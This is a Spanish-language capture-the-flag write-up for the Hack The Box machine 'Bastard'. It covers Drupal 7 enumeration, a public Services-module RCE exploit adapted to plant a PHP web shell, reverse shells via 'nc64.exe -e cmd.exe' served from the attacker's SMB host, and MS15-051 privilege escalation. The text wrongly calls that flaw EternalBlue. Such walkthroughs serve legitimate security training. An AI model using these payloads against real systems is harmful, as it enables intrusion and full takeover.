```yaml
---
layout: post
title: Bastard
date: 2022-11-17
categories: ["HTB", "Enumeration", "Drupal", "RCE", "EternalBlue"]
thumbnail: "assets/images/Bastard.png"
---
```


# Bastard [ Hack The Box ]

### Reconocimiento

#### Descubrimiento de puertos y reconocimiento básico
nmap -sS --min-rate 5000 10.10.10.9 -oG allPorts
nmap -sCV -p80,135 10.10.10.9 -oN targeted

`NMAP` nos dice la versión de `Drupal`, en este caso `7`.

### Inspección

Vemos que `NMAP` (además de la versión de `Drupal`) nos dice que el archivo `robots.txt` existe, así que vamos a verlo y vemos un `TXT` llamado `CHANGELOG.txt`, al abrirlo podemos ver (como su nombre indica) los cambios realizados a `Drupal`, vemos que la versión que tienen instalada es la `7.54`, lanzada día uno de febrero del 2017.

```
Drupal 7.54, 2017-02-01
-----------------------

- Modules are now able to define theme engines (API addition:
https://www.drupal.org/node/2826480).
- Logging of searches can now be disabled (new option in the administrative
interface).
- Added menu tree render structure to (pre-)process hooks for theme_menu_tree()
(API addition: https://www.drupal.org/node/2827134).
- Added new function for determining whether an HTTPS request is being served
```

Con SearchSploit buscamos por `Drupal` y nos aparecen muchos `exploits`, pero vemos uno que sirve para todas las versiones de `Drupal 7`, por lo que usaremos ese.

```
Drupal 7.x Module Services - Remote Code Execution | exploits/php/webapps/41564.php
```

Para poder copiarlo en el directorio en el que estamos usaremos el parámetro `-m` y especificaremos la ruta, en este caso: `exploits/php/webapps/41564.php`

- `searchsploit -m exploits/php/webapps/41564.php`

Vemos que el `script` requiere de dos cosas, la `URL` y la ruta `endpoint`, para obtener la ruta usaremos [`DirSearch`](https://github.com/maurosoria/dirsearch), una herramienta que nos ayudará a encontrar directorios y archivos. Lo bueno de [`DirSearch`](https://github.com/maurosoria/dirsearch) es que ya tiene implementado un diccionario propio con las rutas y archivos más importantes y comunes.

Con esto claro procederemos a ejecutar la herramienta, el parámetro `-e` es para especificar la extensión, en este caso `PHP` aunque también encontrará rutas. El parámetro `-x` es para excluir códigos de estado y, por último, el parámetro `-t`, que sirve para especificar la cantidad de hilos a utilizar.

```
dirsearch.py -u "http://10.10.10.9/" -e php -x 403,404 -t 50
```

```
_|. _ _ _ _ _ _|_ v0.3.
(_||| _) (/_(_|| (_| )

Extensions: php | Threads: 50 | Wordlist size: 5963

Error Log: /opt/dirsearch/logs/errors-19-03-07_11-06-02.log

Target: http://10.10.10.9/

[...]
[12:02:32] 200 - 2KB - /robots.txt
[12:02:37] 200 - 62B - /rest/
[...]

Task Completed
```

Como vemos hemos encontrado una ruta con el nombre `rest`, la cual si le enviamos una petición nos sale lo siguiente:

```
Services Endpoint "rest_endpoint" has been setup successfully.
```

Bien! Ya tenemos todos los requisitos para poder explotarlo! Aunque antes tenemos que cambiar algunos parámetros del archivo `PHP` antes descargado.

```
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
'filename' => 'black.php',
'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

Vemos que el parámetro `data` es algo extraño, lo puse así para una vez creado el archivo `PHP` pasarle (con el parámetro `cmd`) el comando para ejecutarlo a nivel de sistema.

Bien! Ahora podemos ejecutar el archivo con `php` para que nuestro archivo malicioso se suba.

- `php 41564.php`

```
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce

#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/black.php
```

- `curl http://10.10.10.9/black.php?cmd=whoami`

```
nt authority\iusr
```

### Shell

Bien! Ahora que ya podemos ejecutar comandos a nivel de sistema de una forma más cómoda podemos utilizar [`smbserver.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) del repositorio [`Impacket`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) para subir el `EXE` de `NC` y así poder entablarnos una conexión, ya que si tratamos de mandar una petición normal no nos dejará.

- `smbserver.py black .`
- `rlwrap -cAr nc -nlvp 4444`

Una vez hayamos creado el servidor `SMB` y habernos puesto en escucha por el puerto que nosotros queramos podemos visitar la siguiente `URL`:

```
http://10.10.10.9/black.php?cmd=\\10.10.14.15\black\nc64.exe -e cmd.exe 10.10.14.9 4444
```
Bien! Ya estamos dentro de la máquina como `IUSR`!

### Subida de privilegios

Estupendo, ya estamos en la máquina, pero queremos ser administradores, así que comencé por enumerar el sistema con systeminfo y me fijé que era `Windows Server 2008`, por lo que estaba bastante desactualizado.

Tras hacer una pequeña búsqueda encontré que era vulnerable a `EternalBlue`, así que para explotarlo me descargué un ZIP del repositorio [`Windows Kernel Exploit`](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051), el cual contenía un archivo `EXE` llamado `ms15-051x64.exe`.

Antes de nada me gustaría probar si funciona, así que me montaré el servidor de nuevo.

- `smbserver.py black .`

```
PS C:\inetpub\drupal-7.54> \\10.10.14.15\black\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 3012 created.
==============================
nt authority\system
```

Funciona! De nuevo utilizaré el servidor `SMB` para transferir el archivo a la máquina víctima y, con `NC`, entablarnos una Reverse Shell. Por lo que nos ponemos en escucha por el puerto que queramos con `NC`.

- `rlwrap -cAr nc -nlvp 443`

```
C:\inetpub\drupal-7.54>\\10.10.14.15\black\ms15-051x64.exe
"\\10.10.14.15\black\nc64.exe -e cmd.exe 10.10.14.15 443"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1612 created.
==============================
```
Enhorabuena! Hemos recibido la Reverse Shell y ya somos administradores de la máquina!